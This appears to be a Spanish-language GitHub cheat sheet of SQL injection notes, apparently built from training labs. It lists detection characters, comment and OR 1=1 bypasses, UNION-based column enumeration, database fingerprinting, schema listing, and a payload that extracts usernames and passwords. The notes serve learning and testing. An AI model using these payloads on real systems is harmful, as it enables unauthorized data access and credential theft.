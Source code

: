 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT [columns] FROM [table_name]-- \
' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

> NOTA: importante definir la columna que sea formato string.

~: separador

ORACLE: || \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

MICROSOFT: + \
ex: 'string'+'string' 

POSTGRESQL: || \
ex: 'string'||'string' 

MySQL: [ ] "space" \
ex: 'string' 'string'

## BLIND SQL INJECTION

--> funcion substring

Oracle:	SUBSTR('string', 4, 2) \
Microsoft:	SUBSTRING('string', 4, 2) \
PostgreSQL:	SUBSTRING('string', 4, 2) \
MySQL:	SUBSTRING('string', 4, 2)

